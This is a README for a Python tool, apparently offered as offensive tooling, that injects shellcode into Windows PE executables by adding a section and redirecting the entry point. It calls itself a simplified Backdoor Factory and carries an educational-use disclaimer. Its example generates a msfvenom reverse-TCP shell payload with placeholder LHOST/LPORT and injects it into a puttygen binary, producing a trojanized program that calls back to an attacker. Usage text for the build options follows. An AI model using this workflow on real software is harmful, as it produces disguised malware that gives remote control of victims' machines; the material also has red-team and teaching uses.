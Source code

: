 # Exutils: A Small Collection of Python Scripts for Binary Analysis and Manipulation

## About

**This project is meant to be used for educational purposes only or for authorized purposes.**

This project is a work in progress. Not all features are integrated but now the following use cases are supported.

- Adding a new section and entering at that new section without restoration
- Adding a new section, jumping to that section, and restoring the original instructions

The goal is to leverage pefile and capstone to create a stripped down version of the Backdoor factory targeting 32 and 64 bit x86 systems that is easy to develop with.

## TODO

- [ ] Use an xor/encoder stub
- [ ] Discover code cave in .text and write to there
- [ ] Cleanup: add mixin inheritance for common functionality in inject module
- [ ] Cleanup: move restoration to class(es)

## Example

```
$ msfvenom -p windows/shell_reverse_tcp -o /path/to/payload/local.py LHOST=x LPORT=y -f python
## edit the local.py file and remove all the "python" portions so that it is just in /x00/x01/x02... format, new lines will be removed automatically
## save new verseion as local.txt
$ ./injectx86.py build -s txt:/path/to/payload/local.txt -f samples/puttygen-x86.exe --force --cave new-section -o /path/to/payloads/folder
```

## Usage

```
usage: injectx86.py [-h] {build,peinfo,shellasm} ...

Inject shellcode into new section

positional arguments:
  {build,peinfo,shellasm}
                        action
    build               build injected binary
    peinfo              get info about pefile
    shellasm            get asm from shellcode

optional arguments:
  -h, --help            show this help message and exit
```

### build;

Inject shellcode into a binary by creating a new section and changing the entrypoint via pefile. Attempts can be made to 'fix' the executable so that it restores the registers.

```
usage: injectx86.py build [-h] -s SHELLCODE -f FILE [-o OUTPUT] [-F] [--no-restore] [-c {auto,cave,new-section}] [-e {jump,new-section}]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        shellcode to convert in \xAA\xBB format (can also pass: a python import path via 'py:somefile.someimporttarget', shellcode in \AA format in a file via 'txt:/path/to/file', and binary data in a file
                        via 'bin:/path/to/binary')
  -f FILE, --file FILE  path to source pe file
  -o OUTPUT, --output OUTPUT
                        path to newly created pe file
  -F, --force           force overwrite output
  --no-restore          do not fix the payload with popa and pusha
  -c {auto,cave,new-section}, --cave {auto,cave,new-section}
                        where to write the shellcode. defaults to auto
  -e {jump,new-section}, --enter {jump,new-section}
                        how to handle the entrypoing. defaults to 'jump' where the executable uses 'jmp' to move to new section

```

### shellasm

Convert shellcode to assembly via capstone

```
usage: injectx86.py shellasm [-h] -s SHELLCODE [-a {x86}] [-m {x32,x64}] [-S START]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        shellcode to convert in \xAA\xBB format (can also pass: a python import path via 'py:somefile.someimporttarget', shellcode in \AA format in a file via 'txt:/path/to/file', and binary data in a file
                        via 'bin:/path/to/binary')
  -a {x86}, --arch {x86}
                        architecture (default: x86)
  -m {x32,x64}, --mode {x32,x64}
                        mode (default: 64)
  -S START, --start START
                        start in hex or decimal format (default: 0x1000)

```

### peinfo

Get basic info from a PE using pefile

```
usage: injectx86.py peinfo [-h] -f FILE [-i {all,sections,imported,exported,dump,entry,start}]

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  path to pe file
  -i {all,sections,imported,exported,dump,entry,start}, --info {all,sections,imported,exported,dump,entry,start}
                        information to show

```

### Shoulders of Giants:

- https://github.com/rmadair/PE-Injector/blob/master/pe-injector.py
- https://axcheron.github.io/code-injection-with-python/#adding-the-section-header
- https://github.com/v-p-b/peCloakCapstone
- https://github.com/secretsquirrel/the-backdoor-factory
- https://nightcr4wl3r.blogspot.com/2017/11/automating-backdoor-creation-for-pe.html
- https://github.com/n3tsky/Exploits-Tools/tree/master/PE-Backdoor
